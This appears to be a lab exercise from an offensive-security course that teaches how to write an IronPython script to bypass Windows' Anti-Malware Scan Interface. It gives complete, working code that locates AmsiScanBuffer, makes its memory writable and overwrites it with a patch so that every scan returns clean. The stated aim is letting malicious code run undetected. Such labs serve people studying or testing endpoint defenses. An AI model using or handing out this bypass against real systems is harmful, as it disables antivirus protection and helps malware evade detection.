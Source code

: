 # Exercise 6: AMSI Bypass with IronPython
This exercise aims to build a script using IronPython to bypass the Anti-Malware Scan Interface (AMSI). AMSI is an open interface available on Windows 10 for applications to request, at runtime, a synchronous scan of a memory buffer by an installed antivirus or security solution. The script patches a specific method of the AMSI's DLL loaded in memory, therefore allowing malicious code to execute without detection.

The script utilizes functionalities provided by the ctypes library in IronPython, which provides C-compatible data types and allows to call functions in DLLs/shared libraries.

1. First, let's test that AMSI is working on the machine. Type `amsicontext` into the existing terminal
2. You should see a malware blocked error that looks like this

```powershell
At line:1 char:1
+ amsicontext
+ ~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

3. Now let's write the bypass by first creating another Python file called powershell_amsi_bypass.py, similar to Exercise 5
4. Start by importing the required modules. `clr`` allows IronPython to interface with .NET and System provides access to core .NET functionalities. os is a Python library for interacting with the Operating System.

```python
import clr
import System
import os
```

5. Load the System.Management.Automation .NET library. System.Management.Automation provides access to the PowerShell runtime. Runspaces enable creating and managing PowerShell runspaces, which are containers that host PowerShell pipelines.

```python
clr.AddReference("System.Management.Automation")
from System.Management.Automation import Runspaces
```

6. Import additional required modules and functions. These imports include both Python and .NET classes and functions used throughout the script. Notable ones are ctypes (provides C-compatible data types in Python), IntPtr and UInt32 (.NET data types), and Marshal (.NET class for marshaling data between managed and unmanaged code).

```python
import clrtype
from ctypes import *
import ctypes
from System import Convert, Text, Environment, IntPtr, UInt32
from System.Management.Automation import Runspaces, RunspaceInvoke
from System.Runtime.InteropServices import DllImportAttribute, PreserveSigAttribute, Marshal, HandleRef, CharSet
```

7. Define the bypass function. This function starts by loading amsi.dll into the application's memory space using LoadLibrary.

```python
def bypass():
    windll.LoadLibrary("amsi.dll")
```

8. Get the handle of amsi.dll. Here, the script retrieves a module handle for amsi.dll, which is necessary to later get the address of the function to patch.

```python
windll.kernel32.GetModuleHandleW.argtypes = [c_wchar_p]
windll.kernel32.GetModuleHandleW.restype = c_void_p
handle = windll.kernel32.GetModuleHandleW('amsi.dll')
```

9. Retrieve the address of the AmsiScanBuffer function within amsi.dll. GetProcAddress retrieves the address of the AmsiScanBuffer function in memory, which is the function we will patch to bypass AMSI.
```python
windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
windll.kernel32.GetProcAddress.restype = c_void_p
BufferAddress = windll.kernel32.GetProcAddress(handle, "AmsiScanBuffer")
```

10. Change the memory protection of the AmsiScanBuffer function to PAGE_EXECUTE_READWRITE (0x40). VirtualProtect changes the protection on a region of committed pages in the virtual address space of the calling process.

```python
BufferAddress = IntPtr(BufferAddress)
Size = System.UInt32(0x05)
ProtectFlag = System.UInt32(0x40)
OldProtectFlag = Marshal.AllocHGlobal(0)
virt_prot = windll.kernel32.VirtualProtect(BufferAddress, Size, ProtectFlag, OldProtectFlag)
```

11. Write a patch to the start of the AmsiScanBuffer function. The script patches AmsiScanBuffer to always return S_OK, causing AMSI to believe the scanned content is safe.

```python
patch = System.Array[System.Byte]((System.UInt32(0xB8), System.UInt32(0x57), System.UInt32(0x00), System.UInt32(0x07), System.UInt32(0x80), System.UInt32(0xC3)))
Marshal.Copy(patch, 0, BufferAddress, 6)
```

12. Define the main function to run the bypass and execute a PowerShell script. After bypassing AMSI, the script opens a PowerShell runspace, executes the PowerShell command 'amsicontext', and prints the output.

```python
def main():
    bypass()
    runspace = Runspaces.RunspaceFactory.CreateRunspace()
    runspace.Open()
    scriptInvoker = RunspaceInvoke(runspace)
    pipeline = runspace.CreatePipeline()
    pipeline.Commands.AddScript(r"'amsicontext'")
    pipeline.Commands.Add("Out-String")
    output = pipeline.Invoke()
    for o in output:
        print(o)
    runspace.Close()
```

13. Run the main function if the script is being run as a standalone program. The if __name__ == '__main__': Python idiom is used to ensure the main function is only run when the script is executed directly (not imported as a module).

```python
if __name__ == '__main__':
    main()
```

14. The script should look like the code below.

```python
import clr
import System
import os

clr.AddReference("System.Management.Automation")
from System.Management.Automation import Runspaces
from ctypes import *
import ctypes
from System import Convert, Text, Environment, IntPtr, UInt32
from System.Management.Automation import Runspaces, RunspaceInvoke
from System.Runtime.InteropServices import DllImportAttribute, PreserveSigAttribute, Marshal, HandleRef, CharSet

def bypass():
    windll.LoadLibrary("amsi.dll")
    windll.kernel32.GetModuleHandleW.argtypes = [c_wchar_p]
    windll.kernel32.GetModuleHandleW.restype = c_void_p
    handle = windll.kernel32.GetModuleHandleW('amsi.dll')
    windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
    windll.kernel32.GetProcAddress.restype = c_void_p
    BufferAddress = windll.kernel32.GetProcAddress(handle, "AmsiScanBuffer")
    BufferAddress = IntPtr(BufferAddress)
    Size = System.UInt32(0x05)
    ProtectFlag = System.UInt32(0x40)
    OldProtectFlag = Marshal.AllocHGlobal(0)
    virt_prot = windll.kernel32.VirtualProtect(BufferAddress, Size, ProtectFlag, OldProtectFlag)
    patch = System.Array[System.Byte]((System.UInt32(0xB8), System.UInt32(0x57), System.UInt32(0x00), System.UInt32(0x07), System.UInt32(0x80), System.UInt32(0xC3)))
    Marshal.Copy(patch, 0, BufferAddress, 6)

def main():
    bypass()
    runspace = Runspaces.RunspaceFactory.CreateRunspace()
    runspace.Open()
    scriptInvoker = RunspaceInvoke(runspace)
    pipeline = runspace.CreatePipeline()
    pipeline.Commands.AddScript(r"'amsicontext'")
    pipeline.Commands.Add("Out-String")
    output = pipeline.Invoke()
    for o in output:
        print(o)
    runspace.Close()

if __name__ == '__main__':
    main()
```

15. Execute the IronPython code using the following command in the terminal

```
.\ipy.exe powershell_amsi_bypass.py
```

16. If successful, you should see the output below

```powershell
amsicontext
```
